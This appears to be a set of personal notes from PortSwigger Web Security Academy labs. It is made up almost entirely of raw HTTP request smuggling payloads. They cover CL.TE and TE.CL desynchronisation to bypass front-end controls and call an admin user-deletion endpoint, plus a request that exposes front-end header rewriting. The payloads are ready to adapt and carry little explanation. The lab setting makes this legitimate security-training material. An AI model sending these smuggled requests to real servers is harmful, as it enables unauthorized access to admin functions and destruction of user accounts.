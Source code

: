 ##### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
```
POST / HTTP/1.1
Host: 0ad0009f04e3c16880e3537100ed00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

x=
```


##### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
```
POST / HTTP/1.1
Host: 0a9b001f03f263298521097300ec0098.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

84
POST /admin/delete HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

username=carlos
0


```


##### Exploiting HTTP request smuggling to reveal front-end request rewriting
Protection with a header of IP matching 127.0.0.1
Notice how the following request shows search results for the test parameter
```
POST / HTTP/1.1
Host: 0acb003b035f179f8162dec100ee0067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
![[Pasted image 20240105114405.png]]
